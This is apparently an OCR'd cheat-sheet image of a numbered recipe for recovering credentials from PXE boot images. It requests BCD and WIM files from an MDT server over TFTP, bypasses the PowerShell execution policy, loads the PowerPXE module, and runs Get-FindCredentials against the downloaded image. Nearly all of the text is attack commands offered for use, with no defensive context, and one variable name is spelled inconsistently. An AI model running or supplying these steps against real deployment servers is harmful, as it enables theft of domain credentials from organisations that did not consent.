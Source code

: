 ## Boot Image credentials recovery

#### 1) Request IP and PXE boot preconfigure details from DHCP ( MDT IP)

#### 2) Use TFTP to request each BCD file and enumerate the configuration for all of them.

#### 3) Use SSH connection

#### 4: tftp -i MDT_IP GET "\tmp\x64{30.....28}.bcd"

#### 5: powershell.exe -executionpolicy bypass

#### 6: Import-Module .\PowerPXE.ps1

#### 7: $bcdfILE = "conf.bcd"

#### 8: Get-WimFile -bcdFile $BCDFile

#### 9: tftp -i MDT_IP GET "PXE\BOOT\IMAGE\LOCATION" pxeboot.wim

#### 10: Get-FindCredentials -WimFile pxeboot.wim

#### 11: VOILA!

